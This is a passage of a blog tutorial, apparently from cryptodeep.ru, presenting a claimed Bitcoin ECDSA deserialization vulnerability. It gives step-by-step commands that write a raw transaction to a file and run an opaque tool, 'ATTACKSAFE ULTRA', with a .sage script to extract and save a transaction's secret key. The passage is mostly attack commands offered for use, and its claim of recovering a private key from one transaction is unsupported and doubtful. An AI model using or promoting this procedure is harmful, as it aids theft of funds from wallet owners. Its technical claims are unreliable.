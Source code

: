 

<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-30-1024x436.png" alt="DeserializeSignature vulnerability in the Bitcoin network: cryptanalysis, consequences and the possibility of creating invalid ECDSA signatures" class="wp-image-5239"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">Application:</h2>



<p>Let's choose <code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code></p>



<p>To get the secret key from a vulnerable&nbsp;<strong>ECDSA</strong>&nbsp;signing transaction , add the data&nbsp;<strong><code>RawTX</code>&nbsp;</strong>to a text document and save it as a file;&nbsp;<code><strong>RawTX.txt</strong></code>&nbsp;for this we will use the utility&nbsp;<code>echo</code></p>



<blockquote class="wp-block-quote">
<p><em><strong>Let's run the command:</strong></em></p>
</blockquote>



<pre class="wp-block-code has-text-color has-link-color" style="color:#4092c2"><code><strong>!echo '01000000010dbc696374c8d7ca61f32710e03aaedcb7a4f2428074814d0e1f4f7f5c1e5935000000008b483045022100b44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307022074e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f0141045cf7dd1ad49af6957415d6b76ff39cbf78f6e72f1db9199a01127687e7230f96614ff6f0184d2191fa7428872e311fe4ddf2b91f560b30fd7dc01d2118ac0b5bffffffff01d2040000000000001976a914d74b32dfa340da479ce64aaf5e326496eb3995f188ac00000000' &gt; RawTX.txt
!cat RawTX.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-32-1024x261.png" alt="DeserializeSignature vulnerability in the Bitcoin network: cryptanalysis, consequences and the possibility of creating invalid ECDSA signatures" class="wp-image-5241"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading has-text-align-center">Let's launch&nbsp;<code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code> using the software <code>“ATTACKSAFE&nbsp;ULTRA”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code has-text-color has-link-color" style="color:#4092c2"><code><strong>!./attacksafe deserialization_error_vulnerability_cve-2023-0085.sage -open RawTX.txt -save SecretKey.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-33-1024x435.png" alt="DeserializeSignature vulnerability in the Bitcoin network: cryptanalysis, consequences and the possibility of creating invalid ECDSA signatures" class="wp-image-5242"/></figure>
